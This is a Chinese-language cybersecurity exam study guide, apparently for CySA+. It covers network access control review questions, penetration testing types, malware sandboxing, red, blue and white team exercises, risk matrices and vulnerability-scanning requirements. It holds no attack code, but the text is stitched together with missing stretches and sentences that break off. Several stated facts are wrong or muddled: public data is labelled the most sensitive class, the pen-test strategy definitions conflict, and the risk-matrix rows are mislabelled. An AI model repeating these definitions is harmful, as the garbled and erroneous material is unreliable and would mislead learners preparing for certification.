| 表 3-2 | `RADIUS` vs. `TACACS+` | |

## 定义关键术语

定义本章中的以下关键术语，并对照词表检查你的答案：

`LAN`（局域网）
`intranet`（内网）
`extranet`（外网）
`DMZ`（非军事化区）
`VLANs`
系统隔离
`Group Policy`（组策略）
`jump box`（跳板机）
`honepot`（蜜罐）
端点安全
`Active Directory`（活动目录）
访问控制列表（`ACL`）
`sinkhole`（汇洞）
`hardening`（加固）
强制访问控制 (`MAC`)
补偿性控制（`compensative controls`）
纠正性控制（`corrective controls`）
检测性控制（`detective controls`）
威慑性控制（`deterrent controls`）
指示控制（`directive controls`）
预防性控制（`preventive controls`）
恢复性控制（`recovery controls`）
行政（管理）控制
逻辑（技术）控制
物理控制
网络访问控制（`NAC`）
基于时间的 `NAC`
基于规则的 `NAC`
基于角色的 `NAC`
基于位置的 `NAC`
基于代理的 `NAC`
无代理的 `NAC`
802.1x
`supplicant`（请求者）
`authenticator`（验证器）
`authentication server`（身份验证服务器）
`RADIUS`
`TACACS+`

## 复习题

1. 你部署 `NAC` 的方式使得用户从特定的安全组获取其网络访问权限。这是哪种类型的 `NAC`？

   a. 基于时间的 `NAC`
   b. 基于规则的 `NAC`
   c. 基于角色的 `NAC`
   d. 基于位置的 `NAC`

2. 该组织正在考虑引入 `NAC` 并列出了优缺点。在使用 `NAC` 和 `NAP` 方面，以下哪项是错误的？

   a. 对于公司管理的计算机效果良好，对访客效果差。
   b. 它们可以对已知威胁和新威胁做出反应。
   c. 投资回报率尚未证实。
   d. 某些实现涉及复杂的配置。

3. 最近的安全评估结果显示，几个系统需要额外的加固。以下哪项不是系统加固的一部分？

   a. 所有应用程序。
   b. 禁用不需要的服务。
   c. 阻塞不需要的端口。
   d. 严格控制外部存储设备和介质的连接。

4. 进入设施必须使用胸卡打开几扇锁着的门。这些属于哪种控制类型？

   a. 逻辑
   b. 技术
   c. 物理
   d. 恢复

5. 所有员工在入职时必须签署一份接受使用政策。这属于哪种控制类型？

   a. 逻辑
   b. 技术
   c. 物理
   d. 指示

6. 在你的新工作中，组织使用的设备允许同时处理两种或更多种分类的信息。这种运行模式是什么？

   a. 多级
   b. 部门化
   c. 系统
   d. 专用

7. 你的老板实现了一个路由器，将某些类型的流量引导到可以分析的地方。这种安排是？

   a. 蜜罐
   b. 汇洞
   c. 跳板机
   d. `NAC`

8. 为了减少远程管理的开销，组织决定部署 802.1x 解决方案。以下哪项不是 802.1x 的组件？

   a. 请求者
   b. 身份验证服务器
   c. Broker
   d. 验证器

9. 在部署了一个没有达到 `ACL` 后，你被分配与相关人员审查 `ACL` 逻辑。关于 `ACL` 的操作，哪种说法是错误的？

   a. 数据包始终按顺序与访问列表进行比较。
   b. 数据包与访问列表进行比较，直到匹配为止。一旦与访问列表中的某行匹配，将对其执行操作，不再进行后续比较。
   c. 每个访问列表的末尾都有隐式的“拒绝”。
   d. 数据包与访问列表中的所有行进行比较。

10. 你的组织最近引入了活动目录。现在组织计划决定如何使用 `AD` 组件来划分网络。以下哪项不是 `AD` 的组件？

    a. 分支
    b. 森林
    c. 树
    d. 域

# 第 4 章 用于保护企业环境的实践

本章涵盖以下主题：

**1.0 威胁管理**

**1.4 解释保护企业环境的实践的目的。**

- 渗透测试：讨论了测试过程和交互规则。
- 逆向工程：包括隔离和沙箱、硬件真实性以及软件和恶意软件的特征和分解。
- 培训与练习：描述了红队、蓝队和白队的功能。
- 风险评估：从技术和操作角度讨论了风险评估过程。

保护企业环境不是一项一次性的工作。它应该包含嵌入日常运营的一系列过程。某些过程（例如渗透测试）旨在攻击者发现之前定位弱点，而其他过程（例如特征和分解）对于理解非常重要，因为这些是攻击者用来破坏你阻止恶意软件交付努力的技术。本章讨论了渗透测试的过程、理解特征和分解的价值、培训与练习的重要性以及风险管理过程的步骤。

## “我已经知道这些了吗？”测试卷

“我已经知道这些了吗？”测试卷可以帮助你评估是否应该阅读整个章节。表 4-1 列出了本章的主要标题以及涵盖这些标题内容的“我已经知道这些了吗？”问题，以便你能够评估自己对这些特定领域的了解程度。测试卷的答案位于附录 A，“‘我已经知道这些了吗？’测试卷与复习题的答案”。如果你错过了其中一个自评估问题，你可能需要跳转到“备考准备任务”。

**表 4-1. “我已经知道这些了吗？”基础知识章节与问题映射**

| 基础知识章节 | | |
| :--- | :--- |
| 渗透测试 | 1–3 |
| 逆向工程 | 6 |
| 培训与练习 | 4,5 |
| 风险评估 | 7 |

- 1. 下列哪个是渗透测试的第一步？
    - a. 收集针对目标系统或设备的攻击方法信息。
    - b. 对目标系统或设备执行攻击以获取用户和特权访问。
    - c. 记录关于目标系统或设备信息。
    - d. 记录渗透测试的结果。

- 2. 在哪种类型的测试中，测试团队对网络系统和设备的了解非常有限？
    - a. 盲测
    - b. 双盲测试
    - c. 目标测试
    - d. 外部测试

- 3. 下列哪个也被称为闭式测试或黑盒测试？
    - a. 零知识测试
    - b. 部分知识测试
    - c. 全知识测试
    - d. 目标测试

- 4. 下列哪个不包含在介入守则（`rules of engagement`）中？
    - a. 时间安排
    - b. 范围
    - c. 补偿
    - d. 授权

- 5. 下列哪个充当网络防御团队？
    - a. 蓝队
    - b. 白队
    - c. 紫队
    - d. 红队

- 6. 使用下列哪种工具可以执行恶意软件可执行文件，而不允许这些文件与本地系统交互？
    - a. 沙箱（`Sandboxing`）
    - b. `DMZ`
    - c. 可信制造厂（`Trusted Foundry`）
    - d. 拆解（`Decomposition`）

- 7. 在进行定性风险评估时，除了事件的影响外，还会考虑以下哪些？
    - a. 攻击向量
    - b. 可能性
    - c. 成本
    - d. 频率

## 基础知识

### 渗透测试

渗透测试（通常称为 `pen test`）旨在模拟对系统、网络或应用程序的攻击。它的价值在于能够发现可能未被注意的安全漏洞。它与漏洞测试的区别在于，渗透测试尝试利用漏洞，而不仅仅是识别漏洞。没有什么比由于漏洞导致关键数据泄露更能引起人们对软件漏洞的关注。

在许多情况下，通过这些测试获得的一些有价值信息是识别出单一操作，这些操作本身是无害的，但在结合使用时会产生安全问题。在使用 `Metasploit` 或 `CANVAS`（第14章“使用网络安全工具和技术”）等框架时，这些测试可以变得更加有效。

渗透测试应该是一种定期进行的业务，其频率应根据网络上信息的敏感性来决定。渗透测试工具的一个例子是 `Retina`。图 4-1 显示了 `Retina` 扫描单个设备的输出。在该输出中，你可以看到工具识别了八个严重问题（用向上箭头指示）：`Terminal Services` 中的弱加密、六个与 `Oracle` 相关的弱点，以及与机器名为 `OracleVirtualBox` 的虚拟化产品相关的一个弱点。

#### 4-1. Retina 输出


渗透测试的步骤如下：

1. 规划与准备
2. 信息收集
3. 漏洞检测
4. 渗透尝试
5. 分析与报告
6. 清理

内部和外部测试都应该进行。内部测试发生在网络内部，而外部测试源于网络外部。渗透测试的策略基于组织的定义，你应该熟悉的策略包括：


- **盲测试**：测试团队对网络系统和设备的了解有限。这种测试通常被称为黑盒测试。
- **双盲测试**：测试团队被提供了关于网络系统和设备的有限信息。这种测试需要组织付出努力。
- **目标测试**：测试团队被提供了关于网络系统和设备的全部信息。这种测试会模拟攻击。
- **零知识测试**：测试团队没有获得关于网络系统和设备的任何信息。这种测试被称为闭式测试。
- **部分知识测试**：测试团队被提供了关于网络系统和设备的部分信息。这种测试需要组织付出。
- **全知识测试**：测试团队被提供了关于网络系统和设备的所有信息。这种测试被称为白盒测试。

渗透测试工具包括 `Metasploit`, `Wireshark`, `CORE Impact`, `Nessus`, `Cain & Abel`, `John the Ripper`。在选择渗透测试工具时，首先确定要测试的系统。记住渗透测试应该包括手动方法和自动化方法。依赖其中一种无法得到彻底的结果。

报告的时效性。

### 逆向工程

逆向工程（Reverse Engineering）是一个存在相当时间的术语。广义来说，它意味着分解某个物品以发现其工作原理，并可能进行复制。在网络安全领域，它被用于分析硬件和软件，并用于其他各种原因，例如：

- 发现恶意软件如何运行
- 确定软件中是否存在恶意软件
- 定位软件漏洞
- 定位硬件中的安全问题

接下来的章节将介绍逆向工程在网络安全分析中的作用。

### 隔离/沙箱

你可能会疑惑，隔离和沙箱的概念为什么会出现在逆向工程的章节中。你如何在不遭受恶意软件影响的情况下对其进行分析？答案是将恶意软件放置在一个安全的地方以便对其进行探测和操作。这是通过对恶意软件进行隔离或“沙箱化”来实现的。你可以使用沙箱在安全环境中运行可能恶意的程序，使其不会感染本地系统。

通过使用沙箱工具，你可以执行恶意执行文件，而无需允许这些文件与本地系统交互。某些沙箱工具还允许你分析执行文件的特征。在某些情况下，这是无法实现的，因为恶意软件如果检测到自己正在沙箱中运行，可能会专门编写成执行不同的操作。

在许多情况下，沙箱工具通过将文件发送到特殊的服务器来运行，该服务器分析文件并向你发送报告。有时这是免费服务，但在许多情况下并不是免费的。这些服务的示例包括：

- `Sandboxie`
- `Akana`
- `Binary Guard True Bare Metal`
- `BitBlaze Malware Analysis Service`
- `Comodo Automated Analysis System and Valkyrie`
- `Deepviz Malware Analyzer`
- `Detux Sandbox`（`Linux` 二进制文件）

研究恶意软件的另一种选择是建立一台“洗机电脑”（sheep dip computer）。这是一个与其他系统隔离的系统，用于分析怀疑被恶意软件感染的文件和消息。你可以在洗机系统上采取以下措施：

- 安装端口监控器以发现恶意软件使用的端口。
- 安装网络监控器以发现文件可能发生了哪些变化。
- 安装网络监控器以识别恶意软件可能尝试进行哪些通信。
- 安装一个或多个防病毒软件以进行恶意软件分析。

通常，这些洗机系统会与防病毒传感器系统相结合，恶意流量会被反射到这些系统中进行分析。

执行逆向工程和恶意软件分析最安全的方法是准备一个测试床（test bed）。这涉及以下步骤：

步骤 1. 在主机上安装虚拟化软件。

步骤 2. 创建一个虚拟机（`VM`）并在虚拟机上安装客户操作系统。

步骤 3. 通过确保网卡（`NIC`）被设置为“仅主机”模式，将系统与网络隔离。

步骤 4. 禁用共享文件夹并在虚拟机上启用客机隔离。

步骤 5. 将恶意软件拷贝到客户操作系统。

此外，你还需要为虚拟机隔离的网络服务，例如 `DNS`。在已补丁和未补丁的配置中安装多个操作系统也可能有益。最后，你可以利用虚拟化快照和镜像制作工具来擦除并重建机器。

一旦测试床完成后，你还需要在隔离的虚拟机上安装许多其他工具，包括：

- **镜像工具：** 你需要这些工具为取证和诉讼程序获取镜像。示例包括 `Safe Back Version 2.0` 和 `DD`（在第 14 章中介绍）。
- **文件/数据分析工具：** 你需要这些工具对潜在的恶意软件文件进行静态分析。示例包括 `PE Studio` 和 `PEFrame`。
- **注册表/配置工具：** 你需要这些工具识别注册表中的受感染设置并识别最后保存的设置。示例包括微软的 `Sysinternals Autoruns` 和 `Silent Rners.vbs`。
- **沙箱工具：** 你需要这些工具进行手动恶意软件分析（在本章前面的“隔离/沙箱”部分中列出）。
- **日志分析器：** 你需要这些工具提取日志文件。示例包括 `AWSStats` 和 `Apache Log Viewer`。
- **网络捕获工具：** 你需要这些工具理解恶意软件如何使用网络。示例包括 `Wireshark` 和 `Omnipeek`。

虽然使用虚拟机调查恶意软件的影响非常常见，但你应该知道，某些编写良好的恶意软件可以很容易地突破虚拟机，这使得这种方法变得有问题。

### 硬件

你必须关注所购买硬件的安全性和完整性。以下是用于提供这种保证的一些方法：

- **硬件的源头真实性**：在购买支持任何网络或安全解决方案的硬件时，安全专业人员必须确保硬件的真实性可以验证。正如手包和手表等昂贵的消费品可能是伪造一样，网络设备也是如此。虽然伪造消费品的危险局限于缺乏真实性和潜在的质量较低，但伪造网络设备带来的危险可能延伸到软件或固件中存在后门。尽可能直接从制造商处购买设备，当从销商处购买时，要谨慎并坚持要求真实性证书。在任何情况下，如果价格看起来好得离谱，记住这可能是设备不是正品的象。
- **可信晶工厂（`Trusted Foundry`）**：可信晶工厂计划可以帮助你在确保从供应商处购买的硬件组件的真实性和完整性保持谨慎。这项国防计划规定了“可信供应商”并确保“可信供应链”。可信供应链始于可信的光掩模、晶工厂、封装/组装和测试服务。它确保系统能够从安全来源获取领先集成电路。在编写时，已有77家供应商被认证为可信。
- **OEM 文档**：减少购买伪造设备概率的方法是要求包含原始设备制造商（`OEM`）文档。确保使用供应商网站进行验证。

### 软件/恶意软件

任何类型的软件都可以对其进行完整性检查，以确保其未被篡改。检查完整性是判断文件是否被损坏（或完全替换）为恶意软件的方法之一。该过程有两种主要方法：

- 指纹/哈希（`Fingerprinting/Hashing`）：指纹或哈希是指使用哈希算法将大型文档或文件还原为字符串的过程，用于验证文件的完整性（即文件是否发生了变化）。为了使其有效，哈希值必须在已知软件具有完整性的时间（例如发布时）计算。此后的任何时候，都可以通过计算新哈希并与其对比来检查软件的完整性。如果字符串不匹配，说明软件已被修改。

防病毒软件也使用此过程来识别恶意软件。问题是恶意软件创建者知道这一点，因此他们不断对代码进行微小更改，以便代码逃避哈希的检测。当他们做出微小更改时，防病毒软件将无法识别该恶意软件，直到防病毒厂商创建新的哈希或签名。由于此原因，某些厂商同意使用“模糊哈希”（`fuzzy hashing`），它寻找相似但不完全匹配的哈希值。

...必需的。时间往往浪费在重复的样本解包和指标提取任务上。

通过动态分析工具，使用自动化静态分析引擎来识别、解压缩、去混淆并解包底层的对象结构。然后，从解包的文件中提取主动威胁指标（`PTI`）。规则引擎对结果进行分类，以计算威胁级别并将提取出的文件进行路由以便进一步分析。最后，对提取出的文件进行修复，以便使用沙箱、反汇器或调试器进行进一步提取或分析。虽然结果可能相同，但这些工具比手动或静态分析快得多，且所需的技能更少。

### 培训与练习

安全分析师必须练习响应安全事件，以便以最组织化、高效的方式做出反应。有一些成熟的方法可以实现这一点。本节将介绍分析师团队、员工和第三方承包商团队如何组织，以及这些团队的一些常用名称。

安全态势通常通过演习进行评估，在演习中，一组人员攻击网络，而另一组则尝试防御网络。这些游戏通常包含以下团队的实现：


- **红队（Red team）**：红队充攻击力量。它通常通过遵循成熟的流程进行渗透测试，包括收集网络信息、扫描网络漏洞，然后尝试利用漏洞。他们可以采取的行动已在交战规则（`rules of engagement`）中预先设定。这些人员通常是预先了解网络的第三方承包商。这有助于他们模拟并非内部人员发起的攻击。

- **蓝队（Blue team）**：蓝队作为网络防御团队，红队的尝试攻击测试了蓝队响应攻击的能力。它也是真实攻击的练习。这包括访问日志数据、使用 `SIEM`、收集情报信息以及进行流量和数据流分析。

- **白队（White team）**：白队是一组技术人员，负责红队和蓝队之间对抗的裁判。执行交战规则可能是白队的角色之一，还包括监控蓝队对攻击的响应并记录红队采用的特定方法。

### 风险评估

虽然渗透测试可以识别漏洞，但并不是识别漏洞的推荐方法。组织应该建立一个定义良好的风险管理流程，其中包括对现有风险的评估。当此流程执行得当时，*威胁建模*允许组织识别威胁和潜在攻击，并针对这些威胁和攻击实施适当的缓解措施。这些方面确保了实施的任何安全控制与组织的运营保持平衡。该流程的三个部分将在后续章节介绍。

### 技术影响与可能性

一旦确定了所有资产及其对组织的价值，就会识别针对每个资产的特定威胁。应尝试建立威胁实现的可能性以及一旦发生后对组织的影响。虽然可以进行定量和定性风险评估，但在进行定性评估时，风险被分为以下几类：

- 高
- 中
- 低

通常会创建一个风险评估矩阵，如图 4-2 所示。主题专家根据其概率和影响对所有风险进行评分。这有助于将资源优先应用于最关键的漏洞上。


**图 4-2. 风险评估矩阵**

| | | 微 | 轻微 | 中等 | 严重 | 极高 |
|---|---|---|---|---|---|---|
| 概率 | 罕见 | 低 | 低 | 低 | 中 | 中 |
| | 不可能 | 低 | 低 | 中 | 中 | 中 |
| | 中等 | 低 | 中 | 中 | 中 | 高 |
| | 可能 | 中 | 中 | 中 | 高 | 高 |
| | 极可能 | 中 | 中 | 高 | 高 | 高 |

### 技术控制审查

技术控制通过技术实现，包括防火墙、访问控制列表、文件夹权限以及识别和防止威胁的设备。在理解威胁后，组织需要建立可能性和影响，并需要选择控制措施，这些措施在解决威胁的同时，其成本不高于威胁发生的成本。对这些控制的审查应该是一个持续的过程。

### 运营控制审查

运营控制是策略、程序和工作实践，这些包括：

- 渗透测试
- 盲测
- 双盲测试
- 目标测试
- 零知识测试
- 部分知识测试
- 全知识测试
- 交战规则
- 逆向工程
- 隔离
- 沙箱化
- 病毒毒电脑（sheep dip computer）
- 镜像工具
- 文件/数据分析工具
- 注册表/配置工具
- 沙箱工具
- 日志分析器
- 网络捕获工具
- 可信赖工厂
- 指纹识别/哈希
- 分解
- 红队
- 蓝队
- 白队
- 风险评估
- 风险评估矩阵
- 技术控制审查
- 运营控制审查

## 复习题

- 1. 以下哪项尝试利用漏洞？
  - a. 漏洞测试
  - b. 渗透测试
  - c. 风险评估
  - d. 端口扫描
- 2. 以下哪项是渗透测试的第三步？
  - a. 分析和报告
  - b. 漏洞检测
  - c. 渗透尝试
  - d. 清理
- 3. 在哪种测试中，团队获得的关于网络的信息最多？
  - a. 盲测
  - b. 双盲测试
  - c. 目标测试
  - d. 外部测试
- 4. 以下哪项包含了使用的方法列表？
  - a. 时机
  - b. 范围
  - c. 授权
  - d. 利用
- 5. 以下哪项将恶意软件放在安全探测和尝试的地方？
  - a. 沙箱化
  - b. 模块化
  - c. 边界强制
  - d. 文件锁
- 6. 以下哪项是与其他系统隔离并用于分析可疑文件消息的系统？
  - a. 病毒毒电脑
  - b. 虚拟机
  - c. 沙箱
  - d. 蜜罐
- 7. 以下哪项是确保从供应商处购买的硬件真实性和完整性的良好示例？
  - a. 可信工厂计划
  - b. 指纹识别
  - c. 哈希
  - d. 分解
- 8. 以下哪项是指将大型文档或文件通过使用哈希算法还原为一个用于验证完整性的字符字符串的过程？
  - a. 哈希
  - b. 分解
  - c. 沙箱化
  - d. 逆向工程
- 9. 以下哪项有助于将资源优先应用于最关键的漏洞上？
  - a. 访问控制矩阵
  - b. 风险评估矩阵
  - c. `PERT` 图
  - d. 甘特图

这些问题通过一个称为漏洞管理的正式过程来处理。当这些操作执行得当时，它们可以减少暴露的影响及其可能性。本章涵盖了实施此类系统的内容。

## “我已经掌握这些了吗？”测验

“我已经掌握这些了吗？”测验可以帮助你评估自己是否应该阅读整个章节。表 5-1 列出了本章中的主要标题以及涵盖这些标题内容的“我已经掌握这些了吗？”测验题，以便你评估自己对这些特定领域的了解程度。测验的答案位于附录 A，“‘我已经掌握这些了吗？’测验与复习题答案”。如果你在这些自评估题中错少于一个，你可能想直接跳到“考试准备任务”。

**表 5-1. “我已经掌握这些了吗？”基础知识章节-题目映射**

| 基础知识章节 | 题目 |
| :--- | :--- |
| 需求识别 | 1 |
| 建立扫描频率 | 2, 3 |
| 配置工具根据规范执行扫描 | 4, 5 |
| 执行扫描 | 6 |
| 生成报告 | 7 |
| 修复 | 8 |
| 持续扫描与持续监控 | 9 |

- 1. 你的团队正准备实施漏洞管理流程。在开始之前，团队试图确定各个步骤的正确顺序以获得最佳结果。建立漏洞管理流程的首要待完成项目是什么？
  - a. 建立扫描频率。
  - b. 识别需求。
  - c. 执行扫描。
  - d. 执行修复。

- 2. 最近发生了一次数据泄露，涉及公司内部共享的数据，泄露给外部可能会造成损害。鉴于这些数据可以在公司内部披露但不应向公司外部披露，这属于哪一类数据？
  - a. 私有 (`Private`)
  - b. 专有 (`Proprietary`)
  - c. 公共 (`Public`)
  - d. 机密 (`Confidential`)

- 3. 风险评估团队准备进行漏洞扫描。在进行之前，团队想要确定测试范围，特别是扫描频率。以下哪项**不影响**扫描频率？
  - a. 风险偏好
  - b. 监管要求
  - c. 技术限制
  - d. 资金限制

- 4. 上次你运行漏洞扫描时，没有生成你所需要的信息质量。以下哪种类型的扫描可能会提高收集信息的质量？
  - a. 根扫描 (`Root scan`)
  - b. 凭证扫描 (`Credential scan`)
  - c. 无凭证扫描 (`Non-credentialed scan`)
  - d. 管理员扫描 (`Admin scan`)

- 5. 第三方正在对网络进行漏洞扫描，技术人员将你他将使用一种使用拉取技术（pull technology）的工具。以下哪项使用了拉取技术？
  - a. 基于代理的扫描 (`Agent-based scan`)
  - b. 基于端口的扫描 (`Port-based scan`)
  - c. 基于服务器的扫描 (`Server-based scan`)
  - d. 基于策略的扫描 (`Policy-based scan`)

- 6. 在参加了为期两天的漏洞扫描培训后，网络团队在执行扫描方面学了一些宝贵的教训。关于执行扫描，以下哪个说法是**错误**的？
  - a. 环境对扫描器进行测试，并采用“散网式”一次性方法进行扫描。
  - b. 关键业务流量和流量模式需要纳入漏洞扫描中，因为扫描本身会增加网络流量。
  - c. 思考一下在何时运行扫描。
  - d. 考虑受影响业务所在运营的时区。

- 7. 现在漏洞扫描已经完成，你需要为受众选择合适的报告类型。以下哪种报告类型最全面？
  - a. 变更报告 (`Change report`)
  - b. 技术报告 (`Technical report`)
  - c. 趋势报告 (`Trend report`)
  - d. 执行报告 (`Executive`)

- 8. 漏洞扫描发现了许多漏洞。团队现在正试图对这些漏洞进行优先优先级排序。有人建议团队创建一个风险评估矩阵。这种表格的一个轴是漏洞的严重性，另一个轴是哪种其他值？
  - a. 发生次数
  - b. 威胁向量 (`Threat vector`)
  - c. 影响 (`Impact`)
  - d. 实施难度

- 9. 最新漏洞扫描中收集的信息价值使组织决定实施持续监控计划。关于此类计划，以下哪项是**不正确**的？
  - a. 它能够提供风险状态的近实时连续快照。
  - b. 它帮助组织将真实事件与无影响事件分开。
  - c. 它极大地提高了 `IT` 管理者的情境感知水平。
  - d. 它可能会增加系统和应用程序维护的成本。

## 基础知识

在着创建漏洞管理流程之前，你必须知道执行该流程的高级步骤。以下章节详细涵盖了这些步骤：

- 步骤 1. 识别需求。
- 步骤 2. 建立扫描频率。
- 步骤 3. 配置工具根据规范执行扫描。
- 步骤 4. 执行扫描。
- 步骤 5. 生成报告。
- 步骤 6. 执行修复。
- 步骤 7. 执行持续扫描和持续监控。

### 需求识别

建立漏洞管理流程的第一阶段是识别组织运行的需求。这些需求在整个过程中必须被考虑，以确保满足企业所在环境的所有需求。正如后续章节讨论，有许多需要考虑的因素。

### 监管环境

组织是否在受监管的行业中运营？如果是，必须记录所有的监管要求，并设计漏洞评估以支持所有要求。以下是存在安全要求的行业示例：

- 金融（例如，银行、经纪商）
- 医疗（例如，医院、诊所、保险公司）
- 零售（例如，信用卡和客户信息）

以下法律可能会影响在这些行业中运营的组织：

- 《萨班斯-奥克斯利法案》(`SOX`)：2002 年的《上市公司会计改革和投资者保护法》，更通俗地称为《萨班斯-奥克斯利法案》(`SOX`)，影响任何在美国上市的组织。它控制了机构的会计方法和财务报告，并对执行官规定了罚款甚至监禁时间。

- **《健康保险可移植性与责任法案》(`HIPAA`)**，也称为肯尼迪-卡塞鲍法案，影响所有医疗机构、健康保险公司和医疗结算中心。它由卫生与人类服务部的民权办公室执行。它为存储、使用和传输医疗信息和医疗数据提供了标准和程序。`HIPAA` 覆盖了州法律，除非州法律更严格。

- **1999 年《格雷姆-莱奇利法案》(`GLBA`)**：1999 年的《格雷姆-莱奇利法案》影响所有金融机构，包括银行、贷款公司、保险公司、投资公司和信用卡提供商。它为保护所有财务信息提供了指南，并禁止向第三方共享财务信息。该法直接影响个人身份信息（`PII`）的安全。

- **支付卡行业数据安全标准 (`PCI-DSS`)**：`PCI-DSS v3.1` 于 2015 年 4 月制定，是截至本文 `PCI-DSS` 标准的最新版本。它鼓励并增强了持卡人数据安全，并促进全球范围内采用一致的数据安全措施。[图 5-1] 显示了 `PCI-DSS` 标准的高级概览。

**图 5-1. PCI-DSS 高级概览**

#### PCI 数据安全标准 – 高级概览

| 构建和维护安全网络与系统 | 1. 安装并维护防火墙配置以保护持卡人数据<br>2. 系统密码和其他安全参数不要使用供应商提供的默认设置 |
| 保护持卡人数据 | 3. 保护存储的持卡人数据<br>4. 确保持卡人数据在开放的公共网络上加密 |
| 维护漏洞管理计划 | 5. 保护所有系统免受恶意软件侵害，并定期更新防病毒软件和程序<br>6. 开发和维护安全的系统和应用程序 |
| 实施强有访问控制措施 | 7. 根据业务知情需要限制对持卡人数据的访问<br>8. 识别并验证对系统组件的访问<br>9. 限制对持卡人数据的物理访问 |
| 定期监控和测试网络 | 10. 跟踪并监控所有对网络资源和持卡人数据的访问<br>11. 定期测试安全系统和流程 |
| 维护信息安全策略 | 12. 维护一份针对所有人员的信息安全策略 |

### 公司政策

即使是未受高度监管的组织也可能拥有一份经过深思的安全策略，详细描述各种场景下所需的安全机制类型。希望他们拥有此类策略，并希望这些策略及其包含的程序、标准和指南也能得到评估的支持。在组织没有此类计划的情况下，网络安全分析师有责任倡议制定此类计划。

### 数据分类

另一个应该考虑的过程是组织的数据分类策略。安全性良好的公司会根据敏感性级别对所有数据进行分类，并组织数据类型以适用于每个敏感类别的相应控制措施。表 5-2 列出了商业企业的一些潜在分类级别。

**表 5-2. 数据分类**

| 级别 | 描述 |
|---|---|
| 机密 (`Confidential`) | 在公司内部共享但泄露可能导致损害的数据 |
| 私有 (`Private`) | 可能不会对公司造成损害，但出于其他原因必须保持隐私的数据 |
| 专有 (`Proprietary`) | 可能会降低公司竞争优势的数据，例如新产品的技术规格 |
| 公开 (`Public`) | 公司使用的最敏感数据，泄露造成的危害最小 |

作为政府承包的组织倾向于使用分类级别。表 5-3 列出了政府和军事使用的分类级别。

#### 表 5-3. 政府与军事分类

| 级别 | 描述 |
|---|---|
| 绝密 (`Top secret`) | 秘密数据包括武器蓝图、技术规格、间谍卫星信息和其他军事信息，如果泄露可能对国家安全造成严重损害 |
| 秘密 (`Secret`) | 秘密数据包括部署计划、导弹位置和其他如果泄露可能对国家安全造成严重的信息 |
| 机密 (`Confidential`) | 机密数据包括专利、商业秘密和其他在未经授权的情况下泄露可能对政府产生严重影响的其他信息 |
| 敏感但未分类 (`Sensitive but unclassified`) | 敏感但未分类的数据包括医疗或其他个人数据，这些可能不会损害国家安全，但可能导致公民对政府声誉产生质疑 |
| 非机密 (`Unclassified`) | 不属于其他四类中的军事和政府信息被视为非机密，通常必须根据《信息自由法》向公众开放 |

如果存在数据分类系统，评估应当支持该系统。

### 资产清单

除了数据本身，所有其他资产都必须进行清单并评估其对组织的价值。这包括支持任何工作流程所需的所有设备。例如，如果特定流程涉及使用 `SQL` 服务器、文件服务器和网站，则这些系统之间的所有设备和传输媒体都必须识别并估值。通常，这些资产必须根据它们对公司的关键性进行组织。通常有两种常用的关键性级别：

- **关键 (`Critical`)**：没有这些系统，公司将无法运行，或将受到严重损害以至于无法继续经营业务。
- **非关键 (`Non-critical`)**：这些资产虽然有更好，但组织继续经营业务并非必须需要。

有关额外指导，网络安全分析师应参考 `NIST SP 800-53` 资产管理指南。

系统并不是完美的。

敏感性还指的是扫描对每个主机的探测深度。扫描工具具有可用于执行特定类型扫描的模板。以下是目前最常用的两种模板：

- 发现扫描（`Discovery` 资产扫描）：此类扫描通常用于创建所有主机和所有可用服务的资产清单。
- 评估扫描：此类扫描比发现扫描更全面，可以识别配置错误、恶意软件、不符合策略的应用程序设置以及弱密码。这些扫描对被扫描设备有重大的影响。

图 5-2 显示了 `Nessus` 中的“所有模板”页面，包含了上面讨论的这类扫描模板。

#### 图 5-2. Nessus 中的扫描模板



### 漏洞信息源 (Vulnerability Feed)

漏洞信息源是专门用于共享最新漏洞信息的 `RSS` Feed。订阅这些源可以增强扫描团队的知识，并使团队跟最新问题。例如，国家漏洞数据库（National Vulnerability Database）是美国政府基于标准的漏洞管理数据存储库，使用安全内容自动化协议（`SCAP`）进行表示（本节稍后介绍）。

### 范围 (Scope)

扫描范围定义了将扫描的内容以及将执行什么类型的扫描。它定义了基础设施的哪些区域将被扫描，因此范围的这部分应由关注资产的位置驱动。限制扫描区域有助于防止意外扫描公司未直接控制的资产和设备（因为这可能会导致法律问题）。范围还可以包含不应进行扫描的时间。

在 `OpenVAS` 中，你可以通过设置插件（plug-ins）和目标（targets）来设置范围。插件定义扫描，而目标指定机器。图 5-3 显示了如何选择插件，图 5-4 显示了如何设置目标。

#### 图 5-3. 在 OpenVAS 中选择插件

